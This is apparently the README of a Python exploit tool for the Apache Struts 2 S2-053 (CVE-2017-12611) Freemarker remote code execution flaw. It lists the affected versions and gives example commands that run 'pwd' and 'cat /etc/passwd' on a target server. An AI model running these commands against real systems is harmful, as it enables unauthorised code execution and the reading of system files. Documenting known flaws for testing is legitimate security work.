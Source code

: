 # CVE-2017-12611 S2-053

S2系列漏洞，在一定条件下，当开发人员在Freemarker标签中使用错误的构造时，可能会导致远程代码执行漏洞。

## 影响范围

- Struts 2.0.1 - 2.3.33
- Struts 2.5 - 2.5.10

## Usage

`python exp.py [target_url] [shell_command]`

e.g.

```shell
python CVE-2017-12611.py "http://10.0.4.150:8080/hello.action" "pwd"
python CVE-2017-12611.py "http://10.0.4.150:8080/hello.action" "cat /etc/passwd"
```

![eg](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed2/20210629112807.png)